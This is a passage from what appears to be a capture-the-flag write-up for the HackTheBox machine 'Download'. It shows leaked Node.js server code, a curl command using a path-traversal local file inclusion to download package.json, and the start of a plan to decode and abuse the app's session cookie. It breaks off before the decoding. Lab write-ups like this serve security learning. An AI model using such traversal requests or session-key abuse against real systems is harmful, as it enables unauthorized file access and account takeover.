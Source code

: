     });
    app.listen(port, process.env.NODE_ENV === "production" ? "127.0.0.1" : "0.0.0.0", () => {
        console.log("Listening on ", port);
        if (process.env.NODE_ENV === "production") {
            setTimeout(async () => {
                await client.$executeRawUnsafe(`COPY (SELECT "User".username, sum("File".size) FROM "User" INNER JOIN "File" ON "File"."authorId" = "User"."id" GROUP BY "User".username) TO '/var/backups/fileusages.csv' WITH (FORMAT csv);`);
            }, 300000);
        }
    });

After revioned that we noticed an interesting things

    app.use((0, cookie_session_1.default)({
        name: "download_session",
        keys: ["<redact>"],
        maxAge: 7 * 24 * 60 * 60 * 1000,
    }));

The code snippet above shows the key used to `encrypt session cookies`, so perhaps we can use it to move forward.

Continuing whit `LFI` download a `package.json` a classic file in a `node app` often contian an user information.

    curl --path-as-is "http://download.htb/files/download/..%2Fpackage.json" -s -o app.js

We have obtain this whit information about the user, your name us `wesley`.

    {
      "name": "download.htb",
      "version": "1.0.0",
      "description": "",
      "main": "app.js",
      "scripts": {
        "test": "echo \"Error: no test specified\" && exit 1",
        "dev": "nodemon --exec ts-node --files ./src/app.ts",
        "build": "tsc"
      },
      "keywords": [],
      "author": "wesley",
      "license": "ISC",
      "dependencies": {
          "@prisma/client": "^4.13.0",
    <SNIP>

Now let's delve into what we know by going to take a closer look at `cookies`

this is a cookie

    eyJmbGFzaGVzIjp7ImluZm8iOltdLCJlcnJvciI6W10sInN1Y2Nlc3MiOltdfSwidXNlciI6eyJpZCI6MTYsInVzZXJuYW1lIjoidGVzdDEyMyJ9fQ==

Now let's decode this with:
